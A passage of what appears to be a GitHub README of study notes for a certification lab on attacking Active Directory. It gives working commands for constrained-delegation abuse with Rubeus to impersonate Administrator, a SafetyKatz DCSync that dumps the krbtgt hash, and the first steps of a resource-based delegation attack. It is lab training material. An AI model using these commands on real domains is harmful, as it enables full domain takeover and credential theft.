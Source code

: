 if you compromise the account websvc I would be able to access the file system on dcorp-mssql as any user including the domain admin
### Impersonate the Administrator account to access CIFS
```
Rubeus.exe s4u /user:websvc /aes256:<aes256OfWebsvcUser> /impersonateuser:Administrator /msdsspn:CIFS/dorp-mssql.dollarcorp.moneycorp.local /ptt
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<aes256OfWebsvcUser> /impersonateuser:Administrator /msdsspn:TIME/dorp-mssql.dollarcorp.moneycorp.local /altservice:ldap /ptt #get the ldap process from the domain admin to run dcsync attack
klist
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
### you can access dcorp-mssql computer as we have the TGS ticket
```
Enter-PSSession -ComputerName dcorp-mssql.dollarcorp.moneycorp.LOCAL
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/644bdc64-3267-4737-b465-501d9bb522f2)
### now you can Perform DCSync attack
```
SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

# Resource-based Constrained Delegation (RBCD)
in RBCD delegation authority moved from the domain admin to the resource/service

we need to have two privileges

1. Generic All, Generic Write, or Write Property permission over the target service or object
2. control over an object which has SPN configured

This technique will create a fake device, specify a specific password for it, and then add New Property to the target device, which is `"msds-allowedtoactonbehalfofotheridentity"` Contains the SID value of the fake device.

After that, we will use the Rubeus tool, so that we request any service on the target device, such as http in order to set up PS Remoting, or cifs in order to browse the files of the target device or host in order to implement scheduling tasks, and we obtain a Reverse Shell or ldap if the target device is the DC, so that it withdraws the hash. Private in Domain Admins and implement the Pass the Hash technique, and all of these requests will be through the fake device.

### Attack 1
1. I'm using a HRmanager user

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/2c0e0661-d231-456c-9068-08b8fa32c630)

3. Load PowerView
```
Import-Module .\powerview.ps1
```
3. check if the HRmanager user has interesting ACLs
```
Find-InterestingDomainAcl -ResolveGUIDs   
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/e3b4a62b-3134-4d0f-bccc-38aae3c23318)
